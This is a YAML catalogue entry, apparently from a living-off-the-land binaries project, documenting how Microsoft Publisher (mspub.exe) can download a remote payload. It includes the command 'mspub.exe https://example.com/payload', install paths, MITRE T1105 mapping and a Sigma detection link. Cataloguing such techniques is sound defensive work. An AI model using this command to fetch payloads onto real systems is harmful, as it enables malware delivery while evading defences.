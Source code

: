 ```yaml
---
Name: Mspub.exe
Description: Microsoft Publisher
Author: Nir Chako
Created: 2022-08-02
Commands:
  - Command: mspub.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSPUB.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_mspub_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: 'Nir Chako (Pentera)'
    Handle: '@C_h4ck_0'
---
```

